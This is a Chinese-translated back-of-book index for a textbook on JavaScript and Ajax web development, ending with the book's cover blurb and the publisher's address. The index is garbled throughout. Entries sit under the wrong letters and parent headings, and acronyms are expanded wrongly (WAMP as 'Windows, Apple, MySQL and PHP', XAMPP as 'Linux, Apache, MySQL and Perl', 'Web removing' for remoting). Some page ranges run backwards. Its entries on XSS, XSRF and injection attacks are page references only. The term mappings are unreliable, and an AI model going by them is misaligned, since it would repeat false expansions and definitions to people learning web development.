- history（历史），4
- 超链接和锚点，31–33
- lists（列表），27–29
- PHP 和，440
- responses（响应），195–199
- 特殊字符，29–30
- structure（结构），24–26
- tables（表格），33–34
- 标签、元素和属性，23–24
- 将 XML 文档转换为 HTML 文档，83–86
- XForms，406–410
- `h` 元素，255
- HTML 表
  - 门户页头部布局，326–328
  - 卖方页头部片段布局，340–341
- HTTP（超文本传输协议）
  - Apache 开发平台，437
  - 基础网络架构，4–5
  - 基础，48–63
  - 定义，6–9
  - GET vs. POST 方法，52–53
  - HTML 表单和，48–52
  - 请求，176–219
  - 流式，216–219
  - XMLHttpRequest 对象。见 XMLHttpRequest object（对象）
- hyperlinks（超链接）
  - 添加图像，351–352
  - 使用 HTML 添加，31–33
  - 导航实战练习，324–325
  - 使用 Ajax 跟踪历史，221
- 超文本标记语言。见 HTML（Hyper-Markup Language）
- 超文本传输协议。见 HTTP（Hyper-Text Transfer Protocol）

## 索引 487

- 标识符，JavaScript，94
- 恒等运算符（`===`），94
- IDREF 属性，66
- IE（Internet Explorer）
  - Ajax 时代，11
  - 事件处理兼容性，160–163
  - 服务流媒体支持，219
  - XMLHttpRequest，181–182
- IFrame
  - 定义，211–216
  - `MapIDE.html`，362
  - `iframe` 标签
    - 定义，11
    - 隐藏，211–216
  - HTTP 请求，117
- IIS 互联网信息服务（IIS），466–430
- 元素，35
- 图片
  - 在广告横幅中，359
  - 动手练习，347–354
  - 技术细节，342–347
- `#IMPLIED`，66–67
- 个人，在 OWL 中，422–424
- 继承
  - 定义，125–128
  - 在 DOM 结构中，139–141
- `init()`，353–354
- `itinerary()` 函数，394
- `initMap()` 函数，381
- 注入攻击，296–300
- `innerHTML` 属性
  - 定义，188、242–243
  - 处理响应，195–196
- 输入元素，49
- 安装
  - Apache HTTP Server，438–439
  - Dojo toolkit，263
  - 外部 Tomcat 服务器，453–455
  - Firebug，432
  - IIS，466–497
  - PHP，441
  - Tomcat 服务器，261–263
  - WAMP，447
  - XAMPP，444
- 实例文档，59
- 实例，121–123
- 集成开发环境（IDE），362–368。另见 `MapIDE.html`
- 使用 RDF 整合数据资源，413–419
- 将链接的 Web 信息与 OWL 链接，421–424
- 集成测试，290、294
- 接口层级，DOM，140
- 互联网。参见 Web
- 浏览器（IE）。参见 IE（Internet Explorer）
- 互联网信息服务（IIS），466–470
- IP（网协议）地址
  - 定义，31
  - HTTP 基础，46–47
  - `ipconfig` 命令，46
- `it` 元素，26
- 行程规划器
  - 动手练习，400
  - 技术细节，391–399
  - `itemCreator()`，394、399

### J

- Java，9–111
- Java 数据库连接（JDBC），335
- Java Servlets
  - `getAddBanner`，357–359
  - 动手练习，347–354
  - Map IDE，370–385
  - 技术细节，342–347
- JavaDB 工具，316–317
- JavaScript
  - 数组，117
  - BOM，131–138
  - 内置对象和热对象，103–104
  - 注释，93
  - 构造函数和模拟类，119–128
  - 类型和值，94–103
  - 定义，-11
  - 诊断，285–287
  - DOM，138–142
  - 拖放函数，394–399
  - 在 HTML 中嵌入，129–131
  - 错误处理和对象，118–119
  - DOM 中的事件处理，154–163
  - 练习，167–171
  - Firebug 和，434–435
  - 函数，110–116
  - 处理在线订单和购物车，381–385
  - 标识符，94
  - Map ID 函数，373–381
  - 运算符，110
  - 概述，92–93
  - 引用，171–173
  - 正则表达式，117–118
  - 响应，205–210
  - 复习习题，163–167
  - 语句，108–110
  - DOM 中的样式操作，150–154
  - 总结，163
  - 遍历和操作 DOM，143–150
  - 变量，104–108
- JavaScript 记法（JSON）。参见 JSON（JavaScript Object Notation）
- JavaServer Faces（JSF）
  - 构建页面，331–335
  - 使用数据表检索图片，342–347
- JavaServer Pages（JSP），458–462
- JDBC（Java Database Connection），335
- Joint Experts Group（JPEG、JPG）
  - 格式，35
- JPEG、JSP（Joint Experts Group）
  - 格式，35
- 框架，291
- JSF（JavaServer Faces）
  - 构建页面，331–335
  - 使用数据表检索图片，342–347
- JSON，294
- JSON（JavaScript Object Notation）
  - 使用 Ajax `xhr()`，259–260
  - 规模事件，371–381
  - 响应，205–210
  - 在 Ajax 中 `xhr()`，274–280
  - `json` 变量，207
- JSP（JavaServer Pages），458–462
- 框架，290–294

### K

- Kahn, Bob，3
- Klein, Leonard，201
- Lackey, Z.，300
- 语言
  - HTML。参见 HTML（HyperText Markup Language）
  - JavaScript。参见 JavaScript
  - PHP。参见 PHP
  - DOM 兼容性。参见 Document Object Model
  - Web 应用程序。参见 XML（Extensible Markup Language）
  - 语义网的分层结构，412–413
  - 布局。参见设计
  - 购买页面，362–368
  - 门户页面，328–331
  - `Post.jsp`，349–351
  - 卖家页面，337–342
- LDAP（Lightweight Directory Protocol），437
  - 长度，76
  - 词域范围，115–116
  - 库，Dojo，254–255
- `localhost`，47
- `location` 对象，136–137
- `lock servlet`，382、385
- JavaScript 框架，285–286
- 记录 JavaScript，285–286
- 类型元素，75–76
- 混合内容，66
- 模型元素，409–410
- 使用 RDF 建模数据资源，413–419
- DOM 修饰符，147–150
- SPARQL，和，425
- 架构，436
- Mono.Net，9
- Mozilla 项目，11–12。另见 Firefox
- `myCallBack()`，355
- MySQL，471–477

### M

- Mayhoff, Michael，287
- DOM 操作，147–150
- 样式，150–154
- Map ID
  - 动手练习，385–391
  - 技术细节，370–385
- `map` 变量，373
- `MapIDE.html`
  - 在购买页面，314–315
  - 创建购买页面，362–368
- 行程规划器动手练习，400
- `MapOps.js`
  - 内容，373–381
  - 创建，385
- `occurs` 属性，76
- Merrill, Thomas，2
- 特殊字符，29–30
- 方法属性，48–49
- 方法
  - `apply()` 和 `call()`，116
  - 类，123–124
- DOM 接收器，143–147
- DOM 修饰符，147–150
- 事件处理，160
- `history` 对象，136
- HTTP，7–8
- 实例，121–123
- 对象类型，99
- `parseHTML()`，197–199
- 发送 POST 请求，192–194
- `window` 对象，133
- `XMLHttpRequest`，184–186
- XMLHttpRequest 属性，186–192
- Microsoft Script Debugger，286–287
- `occurs` 属性，76–77

### N

- 命名声明，67–68
- 名称参数，49
- 命名空间轴，83
- 命名空间前缀，71
- 命名空间
  - 在 RDF 中，416
  - `xf:`，408
- XML Schema，70–72
- XML Schema 规范，77–78
- 国家超算应用中心（NCSA），9
- 导航
  - 动手练习，323–326
- `navigator` 对象，134–135
- NCP（网络控制协议），3
- NCSA（国家超算应用中心），9
- 嵌套元素，74–75
- 嵌套函数，107
- NetBeans
  - 使用 JS 开发的 Ajax，455
  - 创建 Web 案例，316–319
  - 使用 Tomcat 的安装，261–263
  - 概述，440–441
  - 练习实验室，441–443
  - 插件，462–466
  - 框架，290–294
- Netscape，9
- 网络控制协议，3
- 新运算符，120
- 节点，81
  - 访问，143–147
  - 在 DOM 结构中，139–141
  - 与 OWL 链接，421–424
- 空类型，94
- 数字类型，96–97
- 框架，290

## 索引 491

- Web 远程（Web remoting）的陷阱，219–223
- 纯文本响应，203–205
- 插件，NetBeans PHP，462–466
- 加号（`+`），65
- PNG（可扩展网络图形），35
- `po`（属性对象）参数，257
- 可传输文档格式（PDF），437
- 可扩展网络图形（PNG），35
- 门户站点页面（portal page）
  - 设计，311–312
  - 导航实战，323–326
  - 优化布局和 CSS，328–331
- POST 方法
  - 定义，8
  - 与 GET 方法对比，52–53
  - HTML 表单，48–50
  - 发送 POST 请求，192–194
- `PostItems.jsp`，347–354
- 前一个轴（preceding axis），83
- 前一个节点轴（preceding-sibling axis），83
- 基本数据类型包装对象，102–103
- 基本数据类型，100–102
- 私有成员，124–125
- 处理对象，178–192
- 使用 OWL 处理链接的 Web 信息，421–424
- `process()` 方法，357–359
- 性能分析（profiling），288–289
- 属性（properties）
  - 调整导航，323–324
  - 类，123–124
  - `className`，152–154
  - 普通请求参数，257
  - DOM 访问器，143–147
  - HTML 颜色，30–31
  - 继承，125–128
  - `innerHTML` 属性。参见 innerHTML 属性
  - 实例，121–123
  - `location` 对象，136
  - `navigator` 对象，134
  - 对象类型，98–100
  - OWL，421–424
  - RDFs，419–421
  - `screen` 对象，135
  - `style` 属性，151–152
  - `window` 对象，132–133
  - XMLHttpRequest，186–192
- 属性对象（`po`）参数，257
- 原型对象（prototype objects）
  - 实例，125–128
  - 模拟类，119–121
- 代理（proxies）
  - 调试 Ajax Web 应用，288
  - 同源策略，223
  - 伪协议（seudoprotocols），130–131
  - 拉取数据，216
  - 推送数据，216–219
- `put` 方法，8

### Q

- 查询字符串（query strings）
  - HTTP 基础，47–48
  - HTTP GET，52
- 查询（querying）
  - 定义 URL，64
  - 使用 OWL，421–424
  - 使用 SPARQL，424–428
- 问号（`?`），65

### R

- 原始 XHR（raw XHR），309
- RDF（资源描述框架）
  - 定义，413–419
  - 查询语言，424–428
- RDFS（资源描述框架架构），419–421
- `readstate` 属性，186
- 推理机（reasoners），SPARQL，428
- 引用类型（reference types），100–102
- 引用框架（referencing frames），137–138
- `RegExp()` 构造函数，117–118
- 正则表达式（regular expressions）
  - 星号，65
  - JavaScript，117–118
- 服务流化（service streaming），218
- 关系数据库，316–319
- 相对位置路径，80
- 远程日志，285

## 索引 492

- Web removing。参见 Web roaming
- 请求元素（petition），XML 元素，76–77
- 使用 RDF 表示数据资源，413–419
- 请求头
- 请求消息，6–7
- 请求方法
  - 定义，7–8
- Dojo。参见 Dojo toolkit
- Web removing。参见 Web removing
- XMLHttpRequest 对象。参见 XMLHttpRequest 对象
- RequestHelper
  - 定义，182–183
  - `encodeForm()`，191–194
- Web removing，229–235
- `#REQUIRED`，67
- XMLHttpRequest 的预留字符，192
- 资源描述框架（RDF）
  - 定义，413–419
  - 查询语言，424–428
- 资源描述框架架构（RDFS），419–421
- 资源，数据。参见 data
- 响应（responses）
  - 定义，7–9
  - 头，184
  - HTML，195–199
  - JavaScript 和 JSON，205–210
  - 纯文本，203–205
  - 处理，199–203
  - XML
  - `responseText` 属性
    - 定义，187
    - 服务流化，218
  - `responseXML` 属性
    - 定义，187、199–203
    - 在 Web removing 中，240
- OWL 中类的限制，422–423
- 使用 SPARQL 获取全局信息，425–428
- 返回语句（return statement），110
- 丰富互联网应用（Rich Internet Applications），16
- Roberts, Lawrence，2–3
- 根元素，25
- 行集（row sets），352–353
- `$`
- 销售活动搜索算法，371–381
- `saleinfo` 变量，379
- 同源策略，222–223
- SAX（XML 简单 API），78–79
- Scantlebury, Roger，3
- 数据库 schema，315–316
- URI scheme，5
- 作用域（scope）
  - JavaScript 函数的，115–116
  - JavaScript 变量，105–108
  - 屏幕对象，135
  - 脚本调试，286–287
- 脚本标签（script tags）
  - 在 HTML 中嵌入 JavaScript，129–131
  - HTTP 请求，177
  - 搜索按钮，380–381
  - 搜索活动，371–381
  - 搜索 servlet，373–385
- 安全传输层（SSL），436
- 安全（security）
  - Ajax 挑战与最佳实践，296–300
  - `eval()` 函数，205–206
  - Web removing，222–222
- 自我轴（self axis），83
- 卖家页面（seller page）
  - 设计，312–313
  - 实战，335–342
- 语义网（Semantic Web）
  - 概述，410–412
  - OWL，421–424
  - RDF，413–419
  - RDFS，419–421
  - SPARQL，424–428
  - 结构，412–413
- 分号（`;`），108
- `send()` 方法
  - 发送 POST 请求，192–194
- XMLHttpRequest 属性，186–183

## 索引 493

- `BuyerInfoForm()` 函数，380
- 序列元素（sequence element），76–77
- 序列（sequences），64–65
- 特殊字符
  - HTML，29–30
  - 在正则表达式中，118
  - XML，62–63
  - XML Schema 规范，77
- SPO（主语、谓语、对象）句子，413–414
- SQL（结构化查询语言）
  - 样式，341
  - 服务器控制
  - 脚本，284–285
  - 在 Ajax 应用中，12–13
  - 基础 Web 架构，5–9
  - HTTP 基础，47–48
  - HTTP 流化，216–219
  - 安装和添加 Tomcat，261–263
  - Session 变量，339–348
  - MySQL，471–477
- 脚本（script），317–319
- 属性
  - 在 HTML 中嵌入 JavaScript，130–31
  - HTTP 请求，176
  - SSL（安全传输层），436
- Stamos, A.，300
- 标准标记语言（SGML），58
- `setRequestHandler()` 方法，187
- `timeout()` 函数，211、355
- `setup()`，291–292
- SGML（标准标记语言），58
- 购物车（Shopping Cart）
  - 实战，338–342
  - 在线订单，381–385
  - 工具箱，314
  - `showAll()` 函数，381
  - `showCompleteAddr()` 函数，381
- XML 简单 API（SAS），78–79
- 简单元素，72–73
- 简单网络协议（SNMP）和 Apache，437–438
- 标准，参见 Web
- 开始标签（start tag）
  - 定义，23
  - XML，61–62
- `startProcessAddr()` 函数，380–381
- 请求状态判断，186
- 静态关键字（static keyword），123–124
- `status` 属性，187
- `setText` 属性，187
- 简单协议和 RDF 查询语言（SPARQL），424–428
- 模拟类，119–128
- 单引号（`'`），62–63
- SNMP（简单网络协议）和 Apache，437–438
- 类，391–394
- `span`，42–45
- `sort()`，291–294
- SPARQL（简单协议和 RDF 查询语言），424–428
- 样式，151–152
- `style` 属性，151–152
- 子类，419
- 主语、谓语、对象（SPO）句子，413–414
- 提交按钮，341–342
- 子集，元素实例，41–42
- Sun Java Application Server 9.0，参见 Ajax
- `sync` 属性，257
- 同步请求定义，176–177
- 系统测试，290–296

### T

- 表格，数据。参见 data
- `center` 标签，9
- `frameset` 标签，10–11
- HTTP 请求，177
- `iframe` 标签，211–216
- `xf:model`，408–409
- XML，61–62
- 目标命名空间，70–72
- XML Schema 规范，77
- 目标样式，391–392
- TCP/IP（传输控制协议/IP 协议），3
- `td` 元素，33–34
- `teardown()`，291–292
- Web 应用，289–296
- `text()`，81
- 文本格式 CSS，39–40
- HTML，26–27
- Thing，422
- `this` 关键字构造函数，119–120
- 定义，104
- `timeout` 属性，257
- 超时，210–211
- TLS（安全传输层），436
- Tomcat 服务器
  - 安装和添加，261–263
  - 概述，451–452
  - 实验实验室，452–458
- 工具包，Dojo。参见 Dojo toolkit
- 自顶向下集成测试，294
- TRACE 方法，8
- 流量嗅探器，288
- 传输控制协议/IP 协议（TCP/IP），3
- 安全传输层（TLS），436
- 遍历 DOM，143–150
- DOM 树的层次结构，139–141
- 触发器（triggers），157–158
- 三元组（triples）
  - 使用 RDF 定义，417
  - 在 SPARQL 中，425–428
- `try` 块，118–119
- `tt` 元素，26
- 类型转换，100–101
- JavaScript 类型转换，100–101

### U

- `u1`（无序列表）元素，27–29
- 未定义数据类型，94
- 下划线（`_`），94
- Unicode 编码，60–61
- Unicode 转换格式（UTF），61
- 统一资源标识符（URIs）
  - 定义，5–6
  - 在 RDF 中，413–414
- 统一资源定位符（URLs）。参见 URLs（Uniform Resource Locators）
- 统一资源名称 URN，413
- OWL 中类的并集，422
- 单元测试，290–294
- 无序列表（u1）元素，27–29
- 上传图片
  - 实战，347–354
  - 技术细节，342–347
- URIs（Uniform Resource Identifiers）

## 索引 495

- 在 RDF 中，413–414

### W

- `url` 属性，257
- W3C（万维网联盟）
- URLs（统一资源定位符）
  - 标记验证服务（Markup Validation Service），284–285
  - 已定义，5–6
  - 同源策略，223
  - HTML 超链接和锚点，31–32
  - 关于语义化网（Semantic Web），410、428
  - HTTP 基础，46
  - XMLHttpRequest 以及，181–182
  - 在 RDF 中，413
- WAMP（Windows、Apache、MySQL 和 PHP），447–450
- 同源策略，222–223
- 使用 Ajax 跟踪历史，221–222
- Watir（基于 Ruby 的 Web 应用测试），295–296
- XMLHttpRequest 参数，185
- WDG（Web 设计组），285
- URN（统一资源名称），43

### Web

- 用户界面，XForms，409–410
- 架构，4–9
- 用户参数，185
- 使用 Firefox 开发，432–435
- UTF（Unicode 转换格式），61
- 演变，9–11
- `Utility.java`，335–336
- servers。见 servers

### V

#### validation

- Web 1.0，406
- Web 远程调用完整示例，224–242
- Web 2.0，15、406
- 使用 XMLHttpRequest 处理表单，178–180
- Web 3.0，406
- Web 4.0，428
- HTML 诊断，284–285
- 基于 Ruby 的 Web 应用测试（Watir），295–296
- 纯文本响应，203
- Web 应用
  - de XSS 攻击，300
  - 定义分层，225
  - 使用 SAX 和 DOM，78–79
  - 诊断，284–289
  - Validator 类，232、235
  - 测试，289–296
- `value` 属性，28
- Web 应用的未来
- 值（values）
  - 概述，406
  - 声明属性，66–67
  - OWL，421–424
  - 元素，61
  - RDF，413–414
  - JavaScript，94–103
  - RDFS，419–421
  - JavaScript 变量，104–105
  - 引用，429
  - RDFS，419–421
  - 语义化网（Semantic Web），410–412
  - `var` 关键字，104–106
  - SPARQL，424–428
  - 变长度参数，113–115
  - XForms，406–410
- 变量
  - Web 设计组（WDG），285
  - JavaScript，104–108
  - Web 本体语言（OWL），421–424
  - Venkman JavaScript IDE，调试器，286
- `Venkman` JavaScript IDE，调试器，286

## 索引 496

- 练习，248–249
- 隐藏 `<iframe>`，211–216
- HTML 响应，195–199
- HTTP 流传输，216–219
- JavaScript 和 JSON 响应，205–210
- 概述，176–177
- 陷阱，219–223
- 纯文本响应，203–205
- 引用，250–251
- 响应处理，195
- 复习题，244–248
- 发送 POST 请求，192–194
- 总结，243–244
- XML 响应，199–203
- XMLHttpRequest，177–182
- XMLHttpRequest 方法，184–186
- XMLHttpRequest 对象，182–184
- XMLHttpRequest 属性，186–192
- XMLHttpRequest 超时，210–211
- WebRunner，9
- 良好的 XML 文档，63
- Dojo 插件，254–255
- 维基百科，411
- `window` 对象
  - 在 BOM 中，132–134
  - 已定义，104
  - 引用 Frames，137–138
- Windows、Apple、MySQL 和 PHP（WAMP），447–450
- Web 标准
  - CSS 基础，36–38
  - CSS 元素，41–42
  - CSS 格式化，42–45
  - CSS 样式规则，38–39
  - CSS 文本，39–40
  - 练习，56
  - HTML 基础，23
  - HTML 颜色，30–31
  - HTML 表单，48–52
  - HTML 图形，34–36
  - HTML 标题、段落、换行符及格式化，26–27
  - HTML 超链接和锚点，31–33
  - HTML 列表，27–29
  - HTML 特殊，29–30
  - HTML 结构，24–26
  - HTML 表格，33–34
  - HTML 标签、元素和属性，23–24
  - HTTP 基础，46–48
  - HTTP GET vs. POST，52–53
  - 概述，22
  - 引用，56
  - 复习题，53–55
  - 总结，53
- `spacing` 属性，40
- 万维网（World Wide Web）。见万维网联盟
- 包装函数，287–288
- 包装对象，102–103

### X

- XAMPP（Linux、Apache、MySQL 和 Perl），443–447
- `xf:namespace`，408
- `xf:model` 元素，409
- XForms，406–410
- XHR（XMLHttpRequest）。见 XMLHttpRequest（XHR）
- XHR 包装，309
- Dojo 插件，259–260
- Ajax 应用中的 JSON，274–280
- 使用 Ajax 实验，261–268
- 在 Ajax 中实验，274
- 使用 Dojo 的 XMLHttpRequest，255–258
- 使用 Dojo 的 XMLHttpRequest，256–259
- 将 XML 文档转换为，83–86
- HTML（可扩展标记语言）已定义，22
- HTML（可扩展标记语言）时代，12
- Apache 开发平台，437
- 在 NetBeans 中创建文档，229
- DTD，63–69
- 练习，89
- vs. JSON，206–207
- 概述，58–59
- 使用 SAX 和 DOM 验证，78–79
- RDF，413–419
- 响应，199–203
- 复习题，77–88
- 总结，87
- 使用 XSLT 转换，79
- XForms，406–410
- XML Schema，70–78
- XMLHttpRequest（XHR）已定义，12
- 调试 Ajax 应用，287–288
- 使用 Dojo 插件，255–259
- 使用 HTTP 流传输，217–218
- 修改 `Header.jsp`，355
- Web 远程调用，177–182
- Web 远程调用陷阱，219–223
- XMLHttpRequest 对象定义，182–184
- HTML 响应，195–199
- JavaScript 和 JSON 响应，205–210
- 方法，184–186
- 纯文本响应，203–205
- 属性，186–192
- 响应处理，195
- 发送 POST 请求，192–194
- 超时，210–211
- XML 响应，199–203
- `xmlns` 属性，71–72
- `xmlns:rdf` 命名空间，416
- XPath 已定义，79
- 使用识别 XML 节点，80–83
- `ksi` 元素，77–78
- XSL-FO，79
- XSLT（可扩展样式语言转换），79–86
- XSRF（跨站请求伪造），299–300
- XSS（跨站脚本）攻击，298–300

## JavaScript 与 Ajax Web 开发

RICHARD ALLEN  
KAI QIAN  
LEXIN TAO  
XIANG FU

《JavaScript 与 Ajax Web 开发》为读者提供了 Web 2.0 Web 开发所需的尖端技术。它对于进入 Web 开发世界的本科生或希望进一步理解 JavaScript 和 Ajax 的初级开发者来说都是理想之选。本书阐述了如何轻松创建动态、交互式的 Web 应用，书中穿插的有趣真实案例让读者能够了解真实的 Web 开发场景。通过使用 Ajax 来跟上潮流——它正迅速成为 Web 行业的第一大工具。

### 主要特性：

- 书中的视觉快速入门（Visual QuickStart Guide）提供了：
  - 易懂的视觉方法图和截图，引导读者学习 JavaScript 和 Ajax。
  - 简洁的逐步说明，让读者轻松阅读全书。
  - 对 Ajax 中异步 HTTP 请求概念提供易于理解的方法。
- 全书实操实验室让学生通过基于现实世界的练习进行学习。
- 案例研究提供了准确且真实的场景概览。
- 在线教师材料包括 PowerPoint 课程幻灯片、书中练习题的答案、测试题答案以及书中示例的源代码。


Jones and Bartlett Publishers  
40 Tall Pine Drive  
Sudbury, MA 01776  
978-443-5000  
info@jbpub.com  
www.jbpub.com


